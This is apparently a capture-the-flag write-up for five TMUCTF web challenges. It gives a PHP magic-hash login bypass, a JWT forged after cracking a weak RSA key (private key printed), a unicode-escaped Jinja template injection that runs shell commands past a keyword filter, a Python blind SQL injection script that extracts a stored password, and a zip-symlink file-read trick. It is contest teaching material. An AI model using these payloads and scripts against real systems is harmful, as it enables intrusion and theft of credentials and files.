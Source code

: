 ## Challenge Login
Step 1: /robots.txt -> get source.

Step 2: input password = `0e1137126905` (payload).

Flag -> `TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`

## Challenge The Devil Never Sleeps

Step 1: `/sleepingpill` -> get jwt and public key.

Step 2: format public key.
File `key.pub`
```
-----BEGIN PUBLIC KEY-----
MIGsMA0GCSqGSIb3DQEBAQUAA4GaADCBlgKBjgD/////////////////////////
/////////////////////////////////////////////////////////////3//
///////////+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAECAwEAAQ==
-----END PUBLIC KEY-----
```
Step 3: Use RsaCtfTool to gen private key.
`./RsaCtfTool.py --publickey ./key.pub --private`

Private key
```
-----BEGIN RSA PRIVATE KEY-----
MIICkAIBAAKBjgD/////////////////////////////////////////////////
/////////////////////////////////////3/////////////+AAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAECAwEAAQKBjSp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WA
Kn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqVVWqqlVVqqpVVaoAVf+q
AFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+q
AFX/qgBV/6oAVf+qAQJCAf//////////////////////////////////////////
////////////////////////////////////////////Akx/////////////////
////////////////////////////////////////////////////////////////
////////////////////AkIBgIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CA
f3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f38CTFVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqkCQRCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhC
EIQhBCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhCEIQhB
-----END RSA PRIVATE KEY-----
```
Step 4: Use jwt.io set `exp": 9999999999` and `"sleep": "true"`.
JWT
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Step 5: `/flag` set Header Pill.
```
Pill: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Flag -> `TMUCTF{0h_51nn3rm4n_Wh3r3_Y0u_60nn4_Run_70?}`

## Challenge Injection
filter: `_ [] . request popen mro config " os` and space

Bypass filter by unicode

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('id')|attr('read')()}}
```
decode -> `lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()`

`ls$IFS-t` -> sort files by time

Payload
```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat$IFS/opt/tmuctf/r3zQnO1s31')|attr('read')()}}
```
Final -> decode base64

## Challenge Fake Registration
```py
import requests
import string
from random import choices

url ="http://130.185.123.246/register"
flag=""
padding=""
list_char = string.ascii_letters+string.digits

def random_str()->str:
  return ''.join(choices(list_char,k=7))

def create_user(i,padding):
    data = {
            "username":f"{padding}'||substr((select password from users),{i},1),'tai')--",
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        # print('done')
    except Exception as e:
        print(e)
def brute(char,padding):
    data = {
            "username":padding+char,
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        return r
    except Exception as e:
        print(e)

if __name__ == "__main__":
    for i in range(1,70):
        padding = random_str()
        # print(padding)
        create_user(i,padding)
        for char in string.printable:
            print(char,end='\r')
            if char!="'":
                r=brute(char,padding)
                #print(r.text)
                try:
                    if "UNIQUE constraint" in r.text:
                        flag+=char
                        padding+=char
                        print(flag)
                        break
                except Exception as e:
                    print(e)
```
Flag -> `MUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}`

## Challenge nano
Step 1: `/index.html` -> get path `/801910ad8658876d56f5c8b24a563096.php` (view-source)

Step 2: `/801910ad8658876d56f5c8b24a563096.php?flag_help=/dev/fd/10` -> get path `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php`

Step 3: `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php` and upload zip

Gen zip
```
ls -s /etc/ff3efa4307078c85678c6adee3b5f1b1af2ba16e/nanoflag/flag.txt payload

zip --symlinks payload.zip payload
```

Upload zip and access `/upload/random/payload`
Flag -> `TMUCTF{Z1P_5l1p_15_4_D4n63r0u5_4rch1v3_3x7r4c710N_Vuln3r4b1l17Y___4nd_4_f0rm_0f_D1r3c70rY_7r4v3r54L!!}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later
